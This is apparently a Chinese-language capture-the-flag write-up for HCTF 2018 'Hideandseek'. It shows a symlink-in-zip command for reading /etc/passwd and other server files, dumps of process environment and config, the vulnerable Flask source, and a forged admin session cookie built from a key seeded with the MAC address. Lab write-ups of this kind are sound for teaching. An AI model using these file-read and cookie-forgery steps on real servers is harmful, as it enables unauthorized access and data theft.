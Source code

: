# [HCTF 2018]Hideandseek

## Idea

* admin不能登陆,用个其他用户名登陆,上传一个zip后解压出了内容

* 用软链接读取文件

    `ln -s /etc/passwd passwd && zip -y passwd.zip passwd`

* 解码cookie后发现里面就是

    `{'usernmae': 'test'}`

* 读文件需要路径,先找路径,构造一个`/proc/self/cmdline`发现为

    `cat./uploads/cmd.zip_/cmd`

    所以是用了子进程,我们也得不到原进程的pid

* 尝试读取环境变量`/proc/self/environ`

    ```bash
    HOSTNAME=3d37d57ac5c4
    SHLVL=1
    PYTHON_PIP_VERSION=19.1.1
    HOME=/root
    GPG_KEY=0D96DF4D4110E5C43FBFB17F2D347EA6AA65421D
    UWSGI_INI=/app/uwsgi.ini
    WERKZEUG_SERVER_FD=3
    NGINX_MAX_UPLOAD=0
    UWSGI_PROCESSES=16
    STATIC_URL=/
    static_=/usr/local/bin/python
    UWSGI_CHEAPER=2
    WERKZEUG_RUN_MAIN=true
    NGINX_VERSION=1.15.8-1~stretch
    PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    NJS_VERSION=1.15.8.0.2.7-1~stretch
    LANG=C.UTF-8
    PYTHON_VERSION=3.6.8
    NGINX_WORKER_PROCESSES=1
    LISTEN_PORT=80
    STATIC_INDEX=0
    PWD=/app
    PYTHONPATH=/app
    STATIC_PATH=/app/static
    FLAG=not_flag
    ```

    发现在`/app`目录下面还有一个`uwsgi.ini`,查了一下

    > uWSGI是一个WEB应用服务器,它具有应用服务器,代理,进程管理及应用监控等功能,它支持WSGI协议,同时它也支持自身的uWSGI协议

    读取得到

    ```bash
    [uwsgi]
    module = main
    callable=app
    logto = /tmp/hard_t0_guess_n9p2i5a6d1s_uwsgi.log
    ```

    再读取`然后我们读取/app/main.py`,发现是一个flask程序,但不是网页程序,查看wp发现是读取`/app/hard_t0_guess_n9f5a95b5ku9fg/hard_t0_guess_also_df45v48ytj9_main.py`,上面得到的环境变量也和我们不同,很奇怪,正确的代码为

    ```py
    # -*- coding: utf-8 -*-
    from flask import Flask,session,render_template,redirect, url_for, escape, request,Response
    import uuid
    import base64
    import random
    import flag
    from werkzeug.utils
    import secure_filename
    import os
    random.seed(uuid.getnode())
    app = Flask(__name__)
    app.config['SECRET_KEY'] = str(random.random()*100)
    app.config['UPLOAD_FOLDER'] = './uploads'
    app.config['MAX_CONTENT_LENGTH'] = 100 * 1024
    ALLOWED_EXTENSIONS = set(['zip'])

    def allowed_file(filename):
        return '.' in filename and \
            filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS

    @app.route('/', methods=['GET'])
    def index():
        error = request.args.get('error', '')
        if(error == '1'):
            session.pop('username', None)
            return render_template('index.html', forbidden=1)
        if 'username' in session:
            return render_template('index.html', user=session['username'], flag=flag.flag)
        else:
            return render_template('index.html')

    @app.route('/login', methods=['POST'])
    def login():
        username=request.form['username']
        password=request.form['password']
        if request.method == 'POST' and username != '' and password != '':
            if(username == 'admin'):
                return redirect(url_for('index',error=1))
            session['username'] = username
            return redirect(url_for('index'))

    @app.route('/logout', methods=['GET'])
    def logout():
        session.pop('username', None)
        return redirect(url_for('index'))

    @app.route('/upload', methods=['POST'])
    def upload_file():
        if 'the_file' not in request.files:
            return redirect(url_for('index'))
        file = request.files['the_file']
        if file.filename == '':
            return redirect(url_for('index'))
        if file and allowed_file(file.filename):
            filename = secure_filename(file.filename)
            file_save_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
            if(os.path.exists(file_save_path)):
                return 'This file already exists'
            file.save(file_save_path)
        else:
            return 'This file is not a zipfile'
        try:
            extract_path = file_save_path + '_'
            os.system('unzip -n ' + file_save_path + ' -d '+ extract_path)
            read_obj = os.popen('cat ' + extract_path + '/*')
            file = read_obj.read()
            read_obj.close()
            os.system('rm -rf ' + extract_path)
        except Exception as e:
            file = None
            os.remove(file_save_path)
        if(file != None):
            if(file.find(base64.b64decode('aGN0Zg==').decode('utf-8')) != -1):
                return redirect(url_for('index', error=1))
        return Response(file)

    if __name__ == '__main__':
        #app.run(debug=True)
        app.run(host='0.0.0.0', debug=True, port=10008)
    ```

    可以发现这里的`SECRET_KEY`使用随机数生成的,随机数的种子是`uuid.getnode()`也就是mac地址的10进制值

* 读取`/sys/class/net/eth0/address`

    `02:42:ac:10:a2:d3`

    即`2485377868499`

    得到随机字符串

    `84.91467897774343`

    然后伪造cookie

    `eyJ1c2VybmFtZSI6ImFkbWluIn0.X5Ywaw.LC4lhBv-3erNQE8JGkaivu15N7o`

    即可得到flag

## Payload
